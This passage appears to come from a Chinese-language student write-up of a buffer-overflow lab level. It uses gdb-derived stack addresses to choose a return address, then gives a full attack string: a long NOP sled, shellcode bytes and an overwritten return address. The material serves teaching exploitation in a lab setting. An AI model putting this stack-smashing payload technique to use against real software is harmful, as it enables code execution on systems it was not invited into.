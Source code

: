 由gdb调试结果可知五次input string的存储位置在0x556831d8 到0x556832c8之间，因此如果我们将第一次ret address 定为最高的0x556832c8，那么就可以保证五次运行执行命令都不会在运行攻击程序之前遇到除nop（90）之外的其他指令。（其实返回地址只要不小于0x556832c8即可，这里就取0x556832c8 (`c8 32 68 55`)吧。）

构造攻击字符串nitro_U201315075.txt如下：

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 b8
26 05 8f 2d 8d 6c 24 28 68 42
8d 04 08 c3 c8 32 68 55

```